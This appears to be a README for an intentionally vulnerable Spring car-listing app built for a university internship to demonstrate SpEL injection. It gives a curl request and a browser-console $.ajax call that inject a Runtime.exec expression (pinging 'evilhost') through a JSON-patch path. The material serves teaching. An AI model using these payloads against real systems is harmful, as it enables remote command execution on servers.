 # SpELinj
Exemple for SpEL injection

Made for internship at St. Petersburg ETU LETI.

This project contains a SpEL injection vulnerability.

To exploit this vulnerability, you need to send a request to the server like:
>curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : >"pwned" }]' "http://localhost/cars/1/"

or execute the following code in the browser console on the "Добавить объявление" page:
>$.ajax({            url: 'cars/1/',
>                    type: 'PATCH',
>                    data: JSON.stringify([{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"ping evilhost\").x", "value" : "pwned" }]),
>                    contentType: 'application/json-patch+json; charset=utf-8',
>                    dataType: 'json-patch+json',
>                    async: false });
